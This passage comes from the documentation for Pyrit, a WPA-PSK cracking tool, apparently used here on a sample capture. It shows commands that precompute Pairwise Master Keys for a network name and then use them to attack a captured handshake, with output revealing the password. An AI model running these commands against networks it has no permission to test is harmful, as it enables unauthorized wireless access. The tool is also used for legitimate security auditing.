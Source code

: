 The database now contains enough information to start batch-processing it. Pyrit will take all (ESSID:password)-combinations, compute the corresponding _Pairwise master Keys_ and store those for later use.

**Please note** that you can stop Pyrit's batch-processing at any time (with ctrl+c or sending SIGTERM). Pyrit will start at the point where it stopped the next time you start batch-processing. Issue to following command:
```
pyrit batch
```

... and watch how Pyrit crunches through the database until it runs out of work:
```
Pyrit 0.3.0 (C) 2008-2010 Lukas Lueg http://pyrit.googlecode.com
This code is distributed under the GNU General Public License v3+

Connecting to storage at 'file://'...  connected.
Working on ESSID 'linksys'
Processed all workunits for ESSID 'linksys'; 1035 PMKs per second.

Batchprocessing done.
```

You can use the _'eval'_-command once more to see that all workunits for ESSID _'linksys'_ have been computed.


## Using the database to attack a handshake ##

We can now use the _Pairwise Master Keys_ stored in the database to attack the same handshake as in the example above. Instead of running a "passthrough-attack", where the database is not touched at all, we issue a "database-attack" like the following:

```
pyrit -r wpapsk-linksys.dump.gz attack_db
```

**Please note** that we did neither specify the network's ESSID nor it's BSSID.

You should get a response very similar to the following:
```
Pyrit 0.3.0 (C) 2008-2010 Lukas Lueg http://pyrit.googlecode.com
This code is distributed under the GNU General Public License v3+

Connecting to storage at 'file://'...  connected.
Parsing file 'wpapsk-linksys.dump.gz' (1/1)...
587 packets (587 802.11-packets), 1 APs

Picked AccessPoint 00:0b:86:c2:a4:85 ('linksys') automatically.
Attacking handshake with Station 00:13:ce:55:98:ef...
Tried 1639 PMKs so far (39.8%); 1577435 PMKs per second.

The password is 'dictionary'.
```

Again, the password protecting the network has been revealed.
